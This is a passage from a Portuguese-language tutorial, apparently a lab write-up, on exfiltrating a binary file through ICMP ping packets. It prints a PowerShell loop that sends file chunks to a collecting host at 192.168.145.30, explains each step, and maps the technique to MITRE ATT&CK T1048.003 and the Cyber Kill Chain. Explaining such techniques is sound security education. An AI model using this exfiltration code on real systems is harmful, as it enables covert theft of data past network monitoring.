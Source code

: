 ```powershell
for ($i = 0; $i -lt $binaryData.Length; $i += $chunkSize) {
    $chunk = $binaryData[$i..[math]::Min($i + $chunkSize - 1, $binaryData.Length - 1)]
    $ping.Send('192.168.145.30', 1500, $chunk)
}
```

**4. Fragmentação dos Dados:** A cada iteração do loop `for`, uma parte (`chunk`) do arquivo binário é selecionada para ser enviada. A função `[math]::Min` garante que o script não tente ler além do final do array de bytes.

**5. Envio Via Ping:** Cada `chunk` é então enviado via o método `Send` do objeto `Ping`. Aqui, o IP de destino (`192.168.145.30`) representa a máquina que está recebendo os dados e lá está com o `tcpdump` ativo escutando pacotes `icmp` na rede. O tempo limite para a resposta do ping é definido como 1500 ms.

Com isso, nós temos a saída em pleno funcionamento:

![Exfiltração](exfiltracao.gif)

Em Referências, eu deixo um link muito legal para um artigo no Medium que dá detalhes sobre o pacote ICMP.

## 4. Onde o script se encaixa na Matriz do MITRE ATT&CK e na Cyber Kill Chain

### MITRE ATT&CK Framework

Este tipo de ataque pode ser mapeado diretamente no framework MITRE ATT&CK nas seguintes táticas e técnicas:

**Tactic: Exfiltration (TA0010)**

***Technique: Exfiltration Over Alternative Protocol (T1048):*** Esta técnica descreve o uso de protocolos incomuns para exfiltração de dados, como o ICMP. No nosso caso, estamos usando o comando `ping` para enviar fragmentos de um arquivo binário como payload de pacotes ICMP.

***Sub-technique: Exfiltration Over ICMP (T1048.003):*** Aqui, o uso específico de ICMP como vetor de exfiltração se aplica perfeitamente, uma vez que os dados são encapsulados e enviados por pacotes ICMP para evitar a detecção.

### Cyber Kill Chain

Dentro da **Cyber Kill Chain**, o processo descrito se encaixa na etapa de **Exfiltração**:

**1. Reconhecimento:** O atacante identifica que a rede permite tráfego ICMP e que o host de destino está acessível.

**2. Instalação e Comando & Controle (C2):** O script pode ser executado após o comprometimento da máquina, estabelecendo comunicação com o servidor de C2 através de pacotes ICMP, disfarçados de tráfego normal de diagnóstico.

**3. Exfiltração:** O atacante utiliza o script para fragmentar e enviar os dados sensíveis para fora da rede, evitando sistemas de monitoramento tradicionais.

## 5. Considerações Técnicas
